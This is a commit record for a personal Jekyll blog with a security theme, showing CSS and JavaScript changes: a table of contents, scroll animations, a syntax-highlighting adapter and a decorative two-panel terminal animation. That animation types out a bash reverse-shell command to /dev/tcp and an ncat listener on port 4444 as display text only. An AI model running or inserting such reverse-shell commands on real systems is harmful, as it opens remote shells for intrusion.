

Before and after one commit to 0x574R/0x574R.github.io, a Jekyll site: the page built from _posts/2025-10-16-bienvenida.md, in a window 1280 px wide, cut to the strip 115-537 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded; some of the changed lines change nothing that is shown.

Commit message:
Add files via upload

```diff
--- a/assets/css/main.css
+++ b/assets/css/main.css
@@ -252,3 +252,33 @@ pre[class*="language-"], code[class*="language-"]{ background: transparent !impo
 .reveal.is-in{ opacity:1; transform:none }
 .tilt-in{ will-change: transform; transform: perspective(800px) rotateX(2deg) translateY(6px); transition: transform .4s ease, box-shadow .4s ease }
 .tilt-in.is-in{ transform: none }
+
+
+/* ToC */
+.toc{ position:sticky; top:90px; height:max-content; border:1px solid var(--border); border-radius:14px; padding:1rem; background:linear-gradient(180deg, rgba(255,255,255,.02), rgba(0,0,0,.18)) }
+.toc h3{ margin:0 0 .75rem; font-size:1rem }
+.toc ul{ list-style:none; padding:0; margin:0; display:grid; gap:.4rem }
+.toc a{ color:var(--muted) } .toc a:hover{ color:var(--text); text-decoration:none }
+.toc .toc-h2{ font-weight:700 } .toc .toc-h3{ margin-left:.5rem; opacity:.9 }
+
+/* Reveal */
+@keyframes fadeUp{ from{opacity:0; transform:translateY(8px)} to{opacity:1; transform:none} }
+.reveal{ opacity:0; transform:translateY(8px); transition: opacity .4s ease, transform .4s ease }
+.reveal.is-in{ opacity:1; transform:none }
+.tilt-in{ transform: perspective(800px) rotateX(2deg) translateY(6px); transition: transform .4s ease, box-shadow .4s ease }
+.tilt-in.is-in{ transform:none }
+
+/* Terminals */
+.hero-term{ border:1px solid var(--border); border-radius:12px; padding:1rem }
+.hero-term .line{ margin:0; white-space:pre-wrap }
+.hero-term .cursor{ display:inline-block; width:8px; height:1.1em; vertical-align:bottom; background:#e6edf3; animation: blink 1s steps(1) infinite; margin-left:2px }
+@keyframes blink{ 50%{ opacity:0 } }
+.hero-term.attacker .prompt.red{ color:#ff6b6b }
+.hero-term.victim  .prompt.green{ color:#41d692 }
+.hero-term.attacker .term-text{ color:#bfe6ff }
+.hero-term.victim  .term-text{ color:#b8f8c6 }
+
+/* Code backgrounds */
+pre[class*="language-"], code[class*="language-"], .highlight, .post-body pre, .post-body code {
+  background: transparent !important; box-shadow:none !important;
+}
--- a/assets/js/main.js
+++ b/assets/js/main.js
@@ -1,150 +1,19 @@
-(function(){
-  // Reveal on scroll
-  const els = Array.from(document.querySelectorAll('.reveal'));
-  const io = new IntersectionObserver((entries)=>{
-    for (const e of entries){
-      if(e.isIntersecting){ e.target.classList.add('is-in'); io.unobserve(e.target); }
-    }
-  }, {threshold: .12});
-  els.forEach(el=>io.observe(el));
-})();
 
-// Table of contents + reading time
-(function(){
-  const container = document.querySelector('.post .post-body');
-  if(!container) return;
-  const words = container.innerText.trim().split(/\s+/).length;
-  const minutes = Math.max(1, Math.round(words/220));
-  const rt = document.querySelector('[data-reading-time]');
-  if(rt) rt.textContent = minutes + ' min';
-  const tocRoot = document.querySelector('.toc ul');
-  if(!tocRoot) return;
-  const hs = container.querySelectorAll('h2, h3');
-  hs.forEach((h,i)=>{
-    if(!h.id) h.id = 'sec-' + (i+1);
-    const li = document.createElement('li');
-    li.className = 'toc-' + h.tagName.toLowerCase();
-    const a = document.createElement('a'); a.href = '#' + h.id; a.textContent = h.textContent;
-    li.appendChild(a);
-    tocRoot.appendChild(li);
-  });
-})();
+// === Razor Blog JS (consolidated) ===
 
-
-
-
-
-
-
-// Stagger reveal for cards
-(function(){
-  const cards = Array.from(document.querySelectorAll('.grid .card'));
-  if(!cards.length) return;
-  cards.forEach((el,i)=>{ el.classList.add('reveal'); el.style.transitionDelay = (i*70)+'ms'; });
-})();
-
-
-
-
-// Convert Rouge blocks to Prism-compatible and trigger highlighting
-(function(){
-  function convertRouge(){
-    document.querySelectorAll('div.highlighter-rouge').forEach(wrapper=>{
-      const code = wrapper.querySelector('pre.highlight > code');
-      if(!code) return;
-      const lang = (Array.from(code.classList).find(c=>c.startsWith('language-'))||'').replace('language-','') || 'clike';
-      const pre = document.createElement('pre');
-      const inner = document.createElement('code');
-      pre.className = 'language-' + lang;
-      inner.className = 'language-' + lang;
-      inner.textContent = code.textContent;
-      pre.appendChild(inner);
-      wrapper.replaceWith(pre);
-    });
-    if(window.Prism && Prism.highlightAll) Prism.highlightAll();
-  }
-  if(document.readyState !== 'loading') convertRouge();
-  else document.addEventListener('DOMContentLoaded', convertRouge);
-})();
-
-
-    });
-  }
-  async function run(){
-    A.textContent = ""; B.textContent = "";
-    for(let i=0;i<Math.max(seqA.length, seqB.length);i++){
-      if(seqB[i]) await type(B, seqB[i], 22); // victim first (arriba en la UI)
-      if(seqA[i]) await type(A, seqA[i], 22);
-    }
-  }
-  const grid = document.querySelector('.term-grid');
-  let played = false;
-  const io = new IntersectionObserver((es)=>{
-    for(const e of es){ if(e.isIntersecting && !played){ played = true; run(); } }
-  }, {threshold:.12});
-  if(grid) io.observe(grid); else run();
-})();
-
-
-
-// Prism adapter for Rouge -> Prism (with ASM/NASM mapping)
-(function(){
-  function convertRouge(){
-    document.querySelectorAll('div.highlighter-rouge').forEach(wrapper=>{
-      const code = wrapper.querySelector('pre.highlight > code');
-      if(!code) return;
-      let lang = (Array.from(code.classList).find(c=>c.startsWith('language-'))||'').replace('language-','') || 'clike';
-      // Map typical Rouge names to Prism's
-      if(/^(asm|assembly|nasm|x86_64|x86-64|x64)$/.test(lang)) lang = 'nasm';
-      const pre = document.createElement('pre');
-      const inner = document.createElement('code');
-      pre.className = 'language-' + lang;
-      inner.className = 'language-' + lang;
-      inner.textContent = code.textContent;
-      pre.appendChild(inner);
-      wrapper.replaceWith(pre);
-    });
-    if(window.Prism && Prism.highlightAll) Prism.highlightAll();
-  }
-  if(document.readyState !== 'loading') convertRouge();
-  else document.addEventListener('DOMContentLoaded', convertRouge);
-})();
-
-
-// Terminal typing animation v5 (exactly two panels)
-(function(){
-  const A = document.querySelector('[data-ty="a"]'); // attacker
-  const B = document.querySelector('[data-ty="b"]'); // victim
-  if(!A || !B) return;
-  const seqA = ["ncat -lvnp 4444", "listening on [any] 4444 ...", "connection received from 10.10.10.42"];
-  const seqB = ["bash -i >& /dev/tcp/10.10.10.10/4444 0>&1", "whoami", "www-data"];
-  function type(el, text, delay){
-    return new Promise(res=>{ let i=0; (function step(){ if(i<text.length){ el.textContent += text[i++]; setTimeout(step, delay); } else { el.textContent+="\n"; res(); } })(); });
-  }
-  async function run(){ A.textContent=""; B.textContent=""; for(let i=0;i<Math.max(seqA.length, seqB.length);i++){ if(seqB[i]) await type(B, seqB[i], 22); if(seqA[i]) await type(A, seqA[i], 22); } }
-  const grid = document.querySelector('.term-grid'); let played=false;
-  const io = new IntersectionObserver(es=>{ es.forEach(e=>{ if(e.isIntersecting && !played){ played=true; run(); } }); }, {threshold:.12});
-  if(grid) io.observe(grid); else run();
-})();
-
-
-// Reveal + stagger
+// Reveal on scroll + stagger for cards
 (function(){
   const els = Array.from(document.querySelectorAll('.reveal'));
   const io = new IntersectionObserver((entries)=>{
     for(const e of entries){
-      if(e.isIntersecting){
-        e.target.classList.add('is-in');
-        io.unobserve(e.target);
-      }
+      if(e.isIntersecting){ e.target.classList.add('is-in'); io.unobserve(e.target); }
     }
-  }, {threshold:.15});
-  els.forEach((el)=>io.observe(el));
+  }, {threshold:.12});
+  els.forEach(el=>io.observe(el));
 
   const cards = Array.from(document.querySelectorAll('.grid .card'));
-  cards.forEach((el,i)=>{ el.classList.add('reveal'); el.style.transitionDelay = (i*60)+'ms'; });
+  cards.forEach((el,i)=>{ el.classList.add('reveal'); el.style.transitionDelay = (i*70)+'ms'; });
 })();
-
 
 // Post utilities: reading time + dynamic ToC
 (function(){
@@ -161,10 +30,43 @@
     if(!h.id) h.id = 'sec-' + (i+1);
     const li = document.createElement('li');
     li.className = 'toc-' + h.tagName.toLowerCase();
-    const a = document.createElement('a');
-    a.href = '#' + h.id;
-    a.textContent = h.textContent;
+    const a = document.createElement('a'); a.href = '#' + h.id; a.textContent = h.textContent;
     li.appendChild(a);
     tocRoot.appendChild(li);
   });
 })();
+
+// Prism: adapt Rouge blocks to Prism & map ASM -> NASM
+(function(){
+  function convertRouge(){
+    document.querySelectorAll('div.highlighter-rouge').forEach(wrapper=>{
+      const code = wrapper.querySelector('pre.highlight > code');
+      if(!code) return;
+      let lang = (Array.from(code.classList).find(c=>c.startsWith('language-'))||'').replace('language-','') || 'clike';
+      if(/^(asm|assembly|nasm|x86_64|x86-64|x64)$/i.test(lang)) lang = 'nasm';
+      const pre = document.createElement('pre');
+      const inner = document.createElement('code');
+      pre.className = 'language-' + lang;
+      inner.className = 'language-' + lang;
+      inner.textContent = code.textContent;
+      pre.appendChild(inner);
+      wrapper.replaceWith(pre);
+    });
+    if(window.Prism && Prism.highlightAll) Prism.highlightAll();
+  }
+  if(document.readyState!=='loading') convertRouge(); else document.addEventListener('DOMContentLoaded', convertRouge);
+})();
+
+// Hero terminals typing (exactly two panels)
+(function(){
+  const A = document.querySelector('[data-ty="a"]'); // attacker
+  const B = document.querySelector('[data-ty="b"]'); // victim
+  if(!A || !B) return;
+  const seqVictim = ["bash -i >& /dev/tcp/10.10.10.10/4444 0>&1","whoami","www-data"];
+  const seqAttacker = ["ncat -lvnp 4444","listening on [any] 4444 ...","connection received from 10.10.10.42"];
+  function type(el, str, delay){ return new Promise(res=>{ let i=0; (function step(){ if(i<str.length){ el.textContent+=str[i++]; setTimeout(step, delay); } else { el.textContent+="\n"; res(); } })(); }); }
+  async function run(){ A.textContent=""; B.textContent=""; for(let i=0;i<Math.max(seqVictim.length, seqAttacker.length);i++){ if(seqVictim[i]) await type(B, seqVictim[i], 22); if(seqAttacker[i]) await type(A, seqAttacker[i], 22); } }
+  const grid = document.querySelector('.term-grid'); let played=false;
+  const io = new IntersectionObserver(es=>{ es.forEach(e=>{ if(e.isIntersecting && !played){ played=true; run(); } }); }, {threshold:.12});
+  if(grid) io.observe(grid); else run();
+})();
```
